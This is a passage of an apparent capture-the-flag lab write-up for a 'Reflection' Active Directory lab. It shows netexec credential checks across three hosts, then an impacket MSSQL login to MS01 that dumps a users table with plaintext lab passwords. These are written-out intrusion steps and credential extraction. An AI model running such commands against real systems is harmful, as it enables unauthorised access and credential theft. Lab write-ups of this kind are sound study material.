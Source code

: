 Check with netexec to see which machine it applies to.

```zsh
➜  ms01 netexec smb ../reflection.ip -u web_staging -p <REDACTED>
SMB         10.10.156.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.156.102   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.156.103   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.156.101   445    DC01             [-] reflection.vl\web_staging:<REDACTED> STATUS_LOGON_FAILURE 
SMB         10.10.156.102   445    MS01             [+] reflection.vl\web_staging:<REDACTED> (Guest)
SMB         10.10.156.103   445    WS01             [-] reflection.vl\web_staging:<REDACTED> STATUS_LOGON_FAILURE 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Connect to ms01

```zsh
➜  ms01 impacket-mssqlclient web_staging:'<REDACTED>'@10.10.156.102 -dc-ip 10.10.156.101
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_staging  guest@master)> SELECT name FROM master.sys.databases;
name      
-------   
master    

tempdb    

model     

msdb      

staging   

SQL (web_staging  guest@master)> SELECT * FROM staging.dbo.users;
id   username   password        
--   --------   -------------   
 1   b'dev01'   b'Initial123'   

 2   b'dev02'   b'Initial123'   
```
